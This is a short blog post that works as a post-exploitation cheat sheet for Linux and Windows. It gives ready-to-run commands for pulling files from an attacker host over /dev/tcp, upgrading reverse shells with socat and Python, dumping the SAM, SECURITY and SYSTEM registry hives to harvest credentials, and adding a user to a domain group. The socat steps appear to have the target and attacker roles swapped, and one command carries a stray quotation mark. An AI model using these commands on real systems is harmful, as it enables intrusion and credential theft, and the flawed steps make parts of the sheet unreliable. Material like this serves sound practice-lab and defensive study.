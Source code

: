 ```yaml
---
layout: post
title: Common Tools and Commands
author: Mitchell Stein
tags:
- jekyll theme
- jekyll
date: 2022-03-27
tags: []
categories: [Toolkit]
toc:  true
---
```


# Tools

Find common vulnerabilities in Unix binaries

- [GTFOBins](https://gtfobins.github.io)

Crack known password hashes (ONLY USE ON PRACTICE MACHINES)

- [CrackStation](https://crackstation.net)

---

# Commands

## Post-Shell Enumeration

### linux

Find all files owned by a user in Linux, disregarding /proc and /sys files

- `find / -user <username> -ls 2>/dev/null`

Find all SUID binaries for the current user:

- `find / -type f -perm -04000 -ls 2>/dev/null`

Download files with bash

- `bash -c "cat < /dev/tcp/[Attacker IP]/[Attacker Port]" > [file]`

Upgrade reverse shell

- Using socat

  - On target: `` socat file:`tty`,raw,echo=0 tcp-listen:4444 ``
  - On attacker: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attackerip>:4444`

- Using Python
  - On target: `python -c 'import pty; pty.spawn("/bin/bash")'`

View neighbor computer IPs

- `ip ne`
- `"ip -br -c ne`

### Windows

Harvest SAM:

- `reg.exe save hklm\sam c:\temp\sam.save`
- `reg.exe save hklm\security c:\temp\security.save`
- `reg.exe save hklm\system c:\temp\system.save`

Add current user to group

- `net group "<group>" <username> /add /domain`

Get user/domain SID:

- `whoami /user`
